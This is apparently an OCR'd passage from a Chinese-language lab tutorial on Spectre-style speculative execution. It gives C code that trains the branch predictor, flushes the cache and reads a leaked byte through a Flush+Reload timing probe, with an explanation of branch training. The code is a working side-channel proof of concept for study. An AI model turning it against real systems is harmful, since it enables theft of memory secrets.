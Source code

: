 ```c
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
	printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d.\n", i);
    }
  } 
}

void victim(size_t x)
{
  if (x < size) {  
      temp = array[x * 4096 + DELTA];  
  }
}

int main() {
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {   
      victim(i);
  }

  // Exploit the out-of-order execution
  _mm_clflush(&size);
  for (i = 0; i < 256; i++)
      _mm_clflush(&array[i*4096 + DELTA]); 
  victim(97);  

  // RELOAD the probing array
  reloadSideChannel();

  return (0); 
}

```

CPU会记录过去采用的分支，然后利用这些过去的结果来预测 if 语句Speculative_execution中应该采用哪个分支。为了触发攻击，我们需要诱导CPU执行我们想要的分支

```c
  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {   
      victim(i);
  }

void victim(size_t x)
{
  if (x < size) {  // size值为10，因此下面语句每一次都会被执行
      temp = array[x * 4096 + DELTA];  
  }
}
```
